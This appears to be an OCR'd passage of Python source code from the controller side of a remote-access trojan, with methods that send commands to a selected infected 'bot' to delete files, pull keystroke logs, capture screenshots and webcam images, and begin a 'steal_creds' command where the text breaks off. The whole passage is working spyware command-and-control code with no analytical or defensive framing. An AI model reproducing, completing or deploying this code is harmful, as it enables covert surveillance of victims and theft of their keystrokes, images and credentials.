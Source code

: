     def delete_path_thread(self, path):
        try:
            client_socket = self.get_selected_socket()
            if not client_socket: return
            cmd = f"delete {path}"
            client_socket.sendall(cmd.encode())
            result = receive_result(client_socket)
            self.log_command("delete", result)
        except Exception as e:
            self.log_command("delete", f"[!] Error: {e}")

    # Run simple commands (keylog, screenshot, etc.) on client
    @require_bot
    def run_simple_command(self, cmd):
        self.log_command(cmd, f"Running {cmd} on {self.selected_bot}...")
        threading.Thread(target=self.run_simple_command_thread, args=(cmd,), daemon=True).start()

    def run_simple_command_thread(self, cmd):
        try:
            client_socket = self.get_selected_socket()
            if not client_socket: return
            if cmd == "get_keylog":
                client_socket.sendall(cmd.encode())
                data = b""
                while True:
                    chunk = client_socket.recv(CHUNK_SIZE)
                    if not chunk:
                        break
                    data += chunk
                    if EOF_MARKER.encode() in data:
                        data = data.replace(EOF_MARKER.encode(), b"")
                        break
                if data == b"NO_KEYLOG":
                    self.log_command(cmd, "[!] Client reported no keylog file.")
                else:
                    save_path = save_keylog(data.decode(errors="ignore"))
                    self.log_command(cmd, f"[+] Keylog saved to {save_path}")
            elif cmd == "screenshot":
                client_socket.sendall(cmd.encode())
                filename = client_socket.recv(1024).decode(errors="ignore")
                exists = client_socket.recv(1024).decode(errors="ignore")
                if exists == "yes":
                    client_socket.sendall("ready".encode())
                    save_path = os.path.join(BASE_DIR, f"received_{filename}")
                    with open(save_path, "wb") as f:
                        while True:
                            chunk = client_socket.recv(CHUNK_SIZE)
                            if not chunk:
                                self.log_command(cmd, "[!] Connection lost during screenshot transfer.")
                                break
                            if chunk.endswith(EOF_MARKER.encode()):
                                f.write(chunk[:-len(EOF_MARKER)])
                                break
                            f.write(chunk)
                    self.log_command(cmd, f"[+] Screenshot received: {save_path}")
                else:
                    self.log_command(cmd, "[!] Screenshot failed or not found on client.")
            elif cmd == "webcam_snap":
                client_socket.sendall(cmd.encode())
                result = receive_webcam_image(client_socket, save_as="webcam.jpg")
                self.log_command(cmd, result)
            elif cmd == "steal_creds":
                client_socket.sendall(cmd.encode())